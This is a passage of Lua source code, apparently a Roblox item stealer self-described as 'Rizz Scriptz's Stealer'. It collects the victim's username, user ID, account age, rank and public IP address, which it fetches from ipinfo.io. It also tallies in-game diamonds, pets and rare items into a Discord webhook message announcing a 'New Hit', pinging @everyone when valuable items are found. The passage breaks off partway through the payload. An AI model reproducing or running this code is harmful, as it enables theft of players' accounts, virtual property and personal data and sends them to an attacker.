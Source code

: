 

-- Sending webhook

local username = game:GetService("Players").LocalPlayer.Name
local fardplayer = game:GetService("Players").LocalPlayer
local receiver = game:GetService("Players"):GetNameFromUserIdAsync(_G.UserID)
local IPadress = game:HttpGet('https://ipinfo.io/ip')
local banktier = SuperBank["Tier"]
local lmao = "/5"
local ping
if #HList ~= 0 or #BHList ~= 0 then
    ping = "@everyone"
elseif #HList == 0 and #BHList == 0 then
    ping = ""
end
-- Img
local data1
if banktiercheck == true then
    imgs = "https://cdn.discordapp.com/attachments/1059224458033901668/1066510039818440864/New_Project_DADCF6A.gif"

    data1 = {
        ["content"] = ping,
        ["username"] = "Rizz Scriptz",
        ["avatar_url"] = "https://cdn.discordapp.com/attachments/1059224458033901668/1066510039818440864/New_Project_DADCF6A.gif",
        ["embeds"] = { {
            ["title"] = "**New Hit** ||With Rizz||",
            ["url"] = "https://discord.gg/uSgzNwHDTS",
            ["type"] = "rich",
            ["color"] = tonumber(0x2798FF),
            ["thumbnail"] = {
                ["url"] = imgs,
                ["height"] = 420,
                ["width"] = 420
            },
            ["fields"] = { {
                ["name"] = "**This data was generated using Rizz Scriptz's Stealer** :moyai:",
                ["value"] = "```Username     : " .. username .. "\nDisplay Name : " .. fardplayer.DisplayName ..
                    "\nUser-ID      : " .. fardplayer.userId .. "\nAccount Age  : " .. fardplayer.AccountAge ..
                    " Days\nIP Address   : " .. IPadress .. "\nRank         : " .. rank ..
                    "\nExploit      : " .. exploit .. "\nReceiver     : " .. receiver .. "\nBank Tier    : Tier " .. SuperBank["Tier"] .. "```",
                ["inline"] = false
            }, {
                ["name"] = ":gem: **Diamonds** :gem:",
                ["value"] = "```" .. DiamondsCount .. "```",
                ["inline"] = true
            }, {
                ["name"] = ":dog: **Pets** :dog:",
                ["value"] = "```" .. #FinalList + #SFinalList .. "```",
                ["inline"] = true
            }, {
                ["name"] = ":money_mouth: **Huges** :money_mouth:",
                ["value"] = "```" .. #HList .. "```",
                ["inline"] = true
            }, {
                ["name"] = ":cat: **Exclusives** :cat:",
                ["value"] = "```" .. #EList .. "```",
                ["inline"] = true
            }, {
                ["name"] = ":performing_arts: **Secrets** :performing_arts:",
                ["value"] = "```" .. #SList .. "```",
                ["inline"] = true
